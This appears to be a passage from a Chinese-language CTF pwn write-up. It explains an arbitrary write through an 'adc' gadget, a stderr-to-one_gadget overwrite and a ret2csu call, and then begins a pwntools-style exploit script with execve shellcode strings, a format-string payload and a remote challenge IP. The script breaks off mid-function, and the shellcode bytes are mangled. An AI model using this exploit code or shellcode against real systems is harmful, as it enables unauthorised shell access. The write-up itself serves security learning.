 其实调用链这么长实际起作用的就是：

```
adc    DWORD PTR [rbp+0x48],edx
ret
```

而其中的edx和rbp都是可以控制的，所以我们就可以实现一次任意写。

可以看到程序空间里存在stderr,stdin,stdout，它们都指向libc，所以可以修改它们为one_gadget来getshell。

在关闭aslr的情况下stderr和one_gadget分别为：

```
stderr = 0x601040  #0x7ffff7dd2540
    one= 0x7ffff7afe147#0x7ffff7a52216 0x7ffff7a5226a  0x7ffff7afd2a4 0x7ffff7afe147
```

计算偏移修改即可。

修改完之后再次利用ret2csu传stderr的地址给r12，**最后调用call qword ptr [r12+rbx*8]**拿到shell。

附上完整exp ：

```
from pwn_debug import *

pdbg=pwn_debug("1")
pdbg.context.terminal=['tmux', 'splitw', '-h']
context.log_level='debug'
pdbg.local("")
pdbg.debug("2.23")
pdbg.remote('111.198.29.45',)

switch=1
if switch==1:
    p=pdbg.run("local")
elif switch==2:
    p=pdbg.run("debug")
elif switch==3:
    p=pdbg.run("remote")
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
sl      = lambda data               :p.sendline(str(data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, ''))
uu64    = lambda data   :u64(data.ljust(8, ''))
bp      = lambda bkp                :pdbg.bp(bkp)
#elf=pdbg.elf
#libc=pdbg.libc
sh_x86_18="x6ax0bx58x53x68x2fx2fx73x68x68x2fx62x69x6ex89xe3xcdx80"
sh_x86_20="x31xc9x6ax0bx58x51x68x2fx2fx73x68x68x2fx62x69x6ex89xe3xcdx80"
sh_x64_21="xf7xe6x50x48xbfx2fx62x69x6ex2fx2fx73x68x57x48x89xe7xb0x3bx0fx05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def pwn():
    pop_rsp=0x40082d

    ru('This is your gift: ')
    stack=int(ru('n'),16)
    #if stack&amp;0xffff&gt;0x2000:
    #   p.close()
    print hex(stack)
    payload1='%'+str(0x298)+'c'+'%26$hn'
    payload1=payload1.ljust(16,'x00')+p64(0x4007A3)
```